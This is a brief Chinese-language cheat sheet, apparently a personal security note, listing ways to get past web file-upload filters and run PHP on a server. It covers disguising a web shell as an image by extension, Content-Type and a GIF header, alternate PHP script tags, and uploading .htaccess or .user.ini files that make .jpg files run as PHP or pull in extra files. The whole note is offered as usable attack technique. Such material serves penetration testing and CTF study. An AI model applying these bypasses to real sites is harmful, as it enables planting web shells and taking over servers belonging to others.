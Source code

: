 # 更改文件名
例如将`shell.php`改为`shell.gif`，`shell.png`之类的

# 更改`Content-Type`
例如`Content-Type: image/gif`

# 添加文件头
例如伪造`GIF`时添加`GIF98a`文件头

# 更改`php`木马为`phtml`
例如`<?php phpinfo();?>`改为`<script language='php'>phpinfo();</script>`

# 上传`.htaccess`文件
对于`Apache`有效
```
AddType application/x-httpd-php .jpg
```
该`.htaccess`文件指定使用以`php`代码看待名称含有`.jpg`的文件

```
php_value auto_prepend_file 1.txt
php_value auto_append_file 2.txt
```
该`.htaccess`文件指定在解析`php`文件前先包含`1.txt`中的内容，解析`php`文件后包含`2.txt`中的内容

# 上传`.user.ini`文件
`php`的用户配置文件，适用范围比`.htaccess`更广
```ini
auto_prepend_file=1.txt
auto_append_file=2.txt
```
和上面的`.htaccess`效果相同
#Web #Apache #PHP #nginx #访问控制 #HTML #文件上传 #绕过 #phtml